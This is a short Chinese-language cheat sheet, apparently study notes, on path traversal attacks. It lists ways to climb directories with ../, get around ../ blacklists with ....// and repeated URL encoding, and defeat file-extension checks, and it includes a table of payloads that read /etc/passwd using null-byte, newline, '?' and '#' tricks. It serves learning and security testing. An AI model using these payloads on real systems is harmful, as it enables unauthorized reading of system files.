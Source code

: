 # 一、知识点

### 1. 点点读上级目录

步骤：

1. 发现可读文件
2. 直接换成/etc/passwd，发现无文件
3. 不断../../

### 2. 不用点点，直接使用绝对路径就行

### 3. 使用....//....//绕过../黑名单

### 4. n重URL编码绕过

### 5. 固定路径后加../绕过

步骤：

1. 发现可读文件，但是带了路径
2. 去掉路径发现不行
3. 在路径后加../绕过

### 6. 文件解析绕过

| Payload                      | 绕过意图                            |
| ---------------------------- | ----------------------------------- |
| `../../../etc/passwd%00.png` | 利用 `%00` 空字节截断（老版本 PHP） |
| `../../../etc/passwd%0a.png` | 利用换行字符绕过匹配                |
| `../../../etc/passwd?.png`   | 加问号后端可能忽略 `?.png` 部分     |
| `../../../etc/passwd#.png`   | URL 片段不参与路径解析              |
| `../../../etc/passwd%ff.png` | 高位字符扰乱路径解析                |